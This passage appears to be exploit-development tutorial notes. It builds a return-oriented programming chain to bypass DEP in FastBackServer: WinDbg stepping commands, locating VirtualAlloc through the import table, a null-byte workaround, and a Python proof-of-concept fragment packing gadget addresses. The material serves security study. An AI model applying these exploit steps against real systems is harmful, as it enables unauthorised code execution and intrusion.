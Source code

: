 Notice the current value in esp and step through the next steps
	p
Dump esp to validate what's happening
	dd esp L1
And repeat:
	p
	dd esp L1
Step through again and watch what happens to the esp
	p
	dd esp L1
Now do it one more time and we can see that esi now contains the same value as esp
	p
	dd esp L1
This also shows that we are at our 43 values in from our buffer

Obtaining VirtualAlloc address
We can get the IAT to find the virtualalloc value, in ida running against the dll can help us identify VirtualAlloc
Open ida, point to the dll, search for VirtualAlloc in the imports tab:


The address for this api will change on reboot, but IAT does not so let's use the IAT address and dereference it to find VirtalAlloc

We need to locate the address on the dummy dword value, resolve the address of virtaulalloc and then write that value on top of the placeholder value

Revert the poc to having eip filled with just B's, and run


The dummy value 0x45454545, which represents the location of the VirtualAlloc address, is at a negative offset of 0x1C from ESP.
Ideally, since we have a copy of the ESP value in ESI, we would like to locate a gadget similar to the following.
	SUB ESI, 0x1C
	RETN
	
The problem with this approach is that the 0x1C value is really 0x0000001C, which has NULL bytes in it.

We can get around the problem by adding -0x1C rather than subtracting 0x1C. The reason this works is because the CPU represents -0x1C as a very large value
	? -0x1c

To obtain a copy of ESI in EAX, we can use the gadget "MOV EAX,ESI ; POP ESI; RETN", which does a move operation. Additionally, we can update the rop variable in the proof of concept
	rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
	rop += pack("<L", (0x42424242)) # junk
	rop += b"C" * (0x400 - 276 - 4 - len(rop))
	
Notice that the gadget contains a POP ESI instruction. This requires us to add a dummy DWORD on the stack for alignment.

To observe the execution of the new gadget, we restart FastBackServer, set a breakpoint on the gadget that copies ESP into ESI, and send the packet:
	bp 0x50501110
	g
	pt
	p
	p
	p
	dd esp L1
